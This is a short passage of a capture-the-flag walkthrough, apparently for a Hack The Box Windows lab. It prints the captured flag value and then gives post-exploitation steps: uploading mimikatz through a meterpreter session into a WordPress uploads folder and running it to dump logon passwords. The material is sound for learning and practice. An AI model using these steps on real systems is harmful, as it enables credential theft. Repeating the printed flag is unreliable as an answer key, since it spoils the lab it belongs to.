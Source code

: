 
### Find Flag 

- From PS shell, find Flag 
```
Location: C:\Users\Administrator\Desktop\root.txt 
```

![](./IMG/24.png)

- Get flag : 6e9a9fdc6f64e410a68b847bb4b404fa

## Post Exploitation 

### Upload mimikaz

- [mimikatz](https://github.com/sebastiendamaye/hackthebox/raw/master/01-starting_point/04-Shield/files/mimikatz.exe)

- Upload mimikatz by the same step before
- In meterpreter, change directory on attacker's machine
```
# lcd /home/kali/Desktop/HTB/
```
- Change directory on victim's machine
```
# cd C:/inetpub/wwwroot/wordpress/wp-content/uploads
``` 
- upload nc executable file to remote victim server
```
# upload mimikatz.exe
```

### Using mimikatz to crack logonpassword

```
#./mimikatz
```
